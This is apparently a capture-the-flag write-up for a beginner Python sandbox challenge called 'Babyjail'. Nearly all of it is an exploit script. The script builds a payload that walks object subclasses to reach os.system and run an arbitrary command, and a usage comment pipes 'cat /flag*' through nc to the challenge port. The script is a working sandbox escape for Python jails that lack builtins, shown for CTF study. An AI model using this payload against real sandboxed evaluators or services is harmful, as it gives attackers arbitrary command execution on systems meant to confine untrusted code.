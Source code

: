 # Babyjail

- Author: Vincent55
- Category: Misc
- Difficulty: Baby

Just a normal pyjail without builtins!

## exploit
```python
import sys

payload = "''.__class__.__base__.__subclasses__()[-4].close.__globals__['system']('<PWNPWN>')"
payload = payload.replace("<PWNPWN>", sys.argv[1])

print(payload)

# python exploit.py "cat /flag*" | nc localhost 10002
```
